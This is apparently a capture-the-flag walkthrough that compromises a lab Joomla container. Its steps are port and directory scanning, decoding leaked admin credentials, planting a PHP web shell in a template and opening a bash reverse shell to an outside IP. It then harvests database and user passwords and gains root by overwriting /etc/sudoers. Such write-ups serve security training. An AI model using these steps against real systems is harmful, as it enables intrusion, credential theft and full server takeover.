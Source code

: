 ![image](https://github.com/user-attachments/assets/9f1276a1-350a-4320-afbf-8d227ba35aa1)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p80,3000,5000 172.17.0.2 -oN targeted
```
![Pasted image 20250130221948](https://github.com/user-attachments/assets/ea8384da-2b52-4f1a-a0cc-8113476035fb)
![Pasted image 20250130222205](https://github.com/user-attachments/assets/875e5c62-1ded-4593-9faf-ebfbe4aa86e8)

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![Pasted image 20250130224322](https://github.com/user-attachments/assets/8c9bb372-5efa-4e31-bd17-166fee52e4bb)
![Pasted image 20250130224341](https://github.com/user-attachments/assets/f2b97e8a-0de0-4f47-b7d2-048eddf32b41)
admin:c2FubHVpczEyMzQ1

![Pasted image 20250130235727](https://github.com/user-attachments/assets/2fa564c1-840c-4d97-b627-5bc186e4763f)
![Pasted image 20250130235734](https://github.com/user-attachments/assets/101b6bfc-427e-480a-87d5-20fdb132c56f)
![Pasted image 20250130235747](https://github.com/user-attachments/assets/5feed2e4-6e3a-42cc-9875-dce72efc7131)
admin:c2FubHVpczEyMzQ1

## **we have a user and a confirmed password only it is encrypted so we will decode it.**

```bash
echo "c2FubHVpczEyMzQ1" |base64 -d
```
![Pasted image 20250131000043](https://github.com/user-attachments/assets/3f9293e6-2024-4d86-ab2b-d9a4c6002a70)
sanluis12345

## **we enter http://172.17.0.2/administrator/**

![Pasted image 20250131104737](https://github.com/user-attachments/assets/5d5d6a88-5e1e-4d4a-a64f-aa099460eb59)
![Pasted image 20250131104754](https://github.com/user-attachments/assets/8525480d-0f26-4d87-89f0-0552fbb7d6b1)

## **we already have access to the administrator jomla profile**

## **now that we have access we need to upload a malicious code to get remote access so let's modify the template**

![Pasted image 20250131105123](https://github.com/user-attachments/assets/bd1cb5e1-9422-4185-8cf6-ae52e9d41522)
![Pasted image 20250131105215](https://github.com/user-attachments/assets/2ff60354-e341-4ded-a666-dd0327a29ab1)
![Pasted image 20250131105235](https://github.com/user-attachments/assets/f5476ea2-bc4a-4047-acbd-f4344e26ce61)
![Pasted image 20250131105257](https://github.com/user-attachments/assets/bd94e176-735b-4cca-aaed-1913a567853f)

## **we will add a message to see if it is shown on the web so that when we enter a directory that does not exist it will show us what we entered.**

![Pasted image 20250131105639](https://github.com/user-attachments/assets/ccb84b34-632e-4774-9546-a2d60a6cc7df)

## **we will add this code on the web**
```bash
system($_GET["cmd"]);
```
![Pasted image 20250131111035](https://github.com/user-attachments/assets/2d9ba69f-9a03-4316-9906-821b251d583a)

## **we add this to our search engine**
```bash
?cmd=comando
```
![Pasted image 20250131111608](https://github.com/user-attachments/assets/03ab62cf-d52c-4ca4-8b79-0c46b2f3aad5)

## **we will now send a revershell**

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.1.228/444 0>%261
```
![Pasted image 20250131111901](https://github.com/user-attachments/assets/ed6d875f-4fd8-47a7-8b3a-f79af471317e)

## **we listen to** 
```bash
nc -nlvp 444
```
![Pasted image 20250131112204](https://github.com/user-attachments/assets/2911daa4-d2c8-4f02-a72a-2ec0c9535464)

## **we already have access we will make a treatment of the tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **by investigating we found the configuration.php file**
```bash
nano configuration.php
```
![Pasted image 20250131112658](https://github.com/user-attachments/assets/d5d2d150-f01c-4dd7-bdd0-650494820867)

user:       joomla_user
passwd:  luisillo123456

## **we will log in with the credentials found**
```bash
mysql -h localhost -u joomla_user -p
```
![Pasted image 20250131113536](https://github.com/user-attachments/assets/376824e0-d88b-4b47-b77b-08d41df30b71)

```MYSQL
show databases;
use DATABASENAME;
show tables;
select * from users;*
```
![Pasted image 20250131114142](https://github.com/user-attachments/assets/c9634dfa-5690-49d7-a9c8-8e6f33b8bc37)
![Pasted image 20250131114205](https://github.com/user-attachments/assets/716bd12a-9686-40ed-a56e-d0fda7b58974)
![Pasted image 20250131114234](https://github.com/user-attachments/assets/50679c3b-f171-4164-8bb2-8453664e9d05)

## **we don't have more information than the user admin**

## **we continue to investigate inside the home folder there are two users but we do not have access**

![Pasted image 20250131114551](https://github.com/user-attachments/assets/e32b47f5-f2db-4ce2-a07d-e936d4da2200)

## **we are looking for possible files for the user luisillo**
```bash
find / -user luisillo 2>/dev/null
```

![[Pasted image 20250131114956.png]]

user:         luisillo
passwd:    luisillosuperpassword

```bash
su luisillo
```
![[Pasted image 20250131115121.png]]

```bash
sudo -l
```
![[Pasted image 20250131115147.png]]
![[Pasted image 20250131115327.png]]

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

![[Pasted image 20250131115656.png]]

